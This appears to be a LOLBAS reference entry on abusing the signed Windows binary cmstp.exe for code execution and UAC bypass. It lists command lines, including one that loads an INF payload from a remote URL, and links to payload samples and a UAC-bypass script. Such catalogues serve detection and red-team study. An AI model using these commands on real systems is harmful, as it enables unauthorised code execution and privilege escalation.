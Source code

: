 ## Cmstp.exe

* Functions: Execute, UACBypass

```
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf     

cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* Nick Tyrer - @NickTyrer

Code sample:
* [Cmstp.inf](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf)    
* [Cmstp_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp_calc.sct)

Resources:
* https://twitter.com/NickTyrer/status/958450014111633408    
* https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80     
* https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
* https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
* https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1 (UAC Bypass)
* https://github.com/hfiref0x/UACME

Full path:
```
C:\Windows\system32\cmstp.exe
C:\Windows\sysWOW64\cmstp.exe
```

Notes:



 